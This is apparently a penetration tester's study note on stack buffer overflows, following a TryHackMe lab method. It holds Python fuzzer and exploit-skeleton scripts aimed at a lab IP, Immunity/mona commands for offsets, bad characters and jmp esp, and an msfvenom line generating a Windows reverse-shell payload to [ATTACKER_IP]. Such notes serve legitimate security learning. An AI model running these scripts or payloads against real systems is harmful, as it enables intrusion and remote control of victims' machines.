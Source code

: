 ```yaml
---
title: 3 - Buffer Overflow
summary: Gaining Access step – a note for Buffer Overflows.
description: Gaining Access step – a note for Buffer Overflows.
---
```


# Memory Architecture

---

### Memory

![killchain-buffer_overflow-architecture-memory.png](../../attachments/killchain-buffer_overflow-architecture-memory.png)
Source: TCM Security

---

### Stack

![killchain-buffer_overflow-architecture-stack.png](../../attachments/killchain-buffer_overflow-architecture-stack.png)
Source: TCM Security

# Basis

---

 > 
 > **<font color=red>python -c "print('A' \*</font> 40 <font color=red>+ '</font>\\xef\xbe\xad\xde<font color=red>')"</font>**</br>
 > Print payload with overflow and value to inject.

 > 
 > **<font color=red>cat</font> myPayloadFile <font color=red>- |</font> vulnerableBinary**</br>
 > Use `-` to hang after succefull buffer overflow. 

# THM Method

---

---

### 1 - Fuzzing

 > 
 > **<font color=red>1_fuzzer.py</font>**</br>

````py
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.99.64"
port = 1337

timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

````

---

### 2 - Controlling EIP (Finding Offset)

#### Method 1: Manual

 > 
 > **<font color=red>/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l</font> 3000**</br>
 > Create chars to find EIP (maki it 400 bytes longer than the string that crashed the server).

 > 
 > Take that string of chars and put it in "payload" variable in 2_exploit.py.

 > 
 > Re-run the program in Immunity.

 > 
 > **<font color=red>2_exploit.py</font>**</br>

````py
import socket

ip = "10.10.99.64"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3 ..." # HERE !
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
````

 > 
 > Look at EIP Value (Immunity > Registers (in CPU Window))
 > ![exploit-buffer_overflow-eip_manual.png](../../attachments/exploit-buffer_overflow-eip_manual.png)

 > 
 > **<font color=red>/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l</font> 3000 <font color=red>-q</font> 386F4337**</br>
 > Return the exact offset.

 > 
 > Take that offset and put it in "offset" variable in 2_exploit.py.

 > 
 > Set "payload" variable to "" (empty).

 > 
 > Set "retn" variable to "BBBB" (EIP overwrite).

#### Method 2: Mona

Immunity : !mona findmsp -distance 2400

→ EIP contains normal pattern : 0x6f43396e (offset 1978)

![exploit-buffer_overflow-eip_mona.png](../../attachments/exploit-buffer_overflow-eip_mona.png)

---

### 3 - Finding Bad characters

#### Method 1: Manual

 > 
 > **<font color=red>!mona bytearray -b "</font>\\x00<font color=red>"</font>**</br>
 > In Immunity

 > 
 > <font color=red>
**3_gen_badchars.py**</font></br>

````py
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
````

 > 
 > Take output form `3_gen_badchars.py` and put il in "payload" variable in `2_exploit.py`.

 > 
 > **<font color=red>2_exploit.py</font>**</br>

 > 
 > Follow EIP in Immunity.
 > ![exploit-buffer_overflow-bad_chars_manual_1.png](../../attachments/exploit-buffer_overflow-bad_chars_manual_1.png)

 > 
 > Check if all chars are here in right order.
 > ![exploit-buffer_overflow-bad_chars_manual_2.png](../../attachments/exploit-buffer_overflow-bad_chars_manual_2.png)

 > 
 > Notes : 
 > 
 > * Bad chars will not necessarily be B0.
 > * When there are consecutive bad chars, the only bad is the first one (but we can remove them by precaution).

#### Method 2: Mona

 > 
 > **<font color=red>!mona config -set workingfolder</font> c:\mona**</br>
 > Set where mona will save data.

 > 
 > **<font color=red>!mona bytearray -cpb</font> “\x00”**</br>
 > Generate Bytearray

 > 
 > **<font color=red>!mona compare -f</font> bytearray.bin <font color=red>-a</font> ESP-ADDR**</br>
 > Find bad chars.

![exploit-buffer_overflow-bad_chars_mona.png](../../attachments/exploit-buffer_overflow-bad_chars_mona.png)

Do it again adding bad chars :

 > 
 > **<font color=red>!mona bytearray -cpb</font> "\x00\x07\x08\x2e\x2f\xa0\xa1"**</br>
 > Generate Byte array.

---

### 4 - Find Jump Point

#### Method 1: Manual

 > 
 > Set "retn" variable to the jump point (backward because of little endian).
 > Ex :  0x01020304 -> "\x04\x03\x02\x01

#### Method 2: Mona

 > 
 > **<font color=red>!mona jmp -r esp -cpb </font>"\x00\x07\x08\x2e\x2f\xa0\xa1"**</br>
 > Return all "jmp esp" (specify bad chars after -cpb).

![exploit-buffer_overflow-jump_point_mona.png](../../attachments/exploit-buffer_overflow-jump_point_mona.png)

---

### 5 - Generate Shellcode (MSFVNOM)


 > 
 > **<font color=red>msfvenom -p</font> windows/shell_reverse_tcp <font color=red>LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>EXITFUNC=thread -f</font> c <font color=red>-b "</font>\\x00\x07\x08\x2e\x2f\xa0\xa1<font color=red>"</font>**</br>
 > Gen Reverse Shell in Shellcode (specify bad chars).

#### Flags

 > 
 > **<font color=red>-b "</font>\\x00<font color=red>"</font>**</br>
 > Specify bad characters (always put at least null byte).
 > 
 > **<font color=red>-f</font> c**</br>
 > File Type (here it's c file).
 > 
 > **<font color=red>-a</font> x86**</br>
 > Architecture.
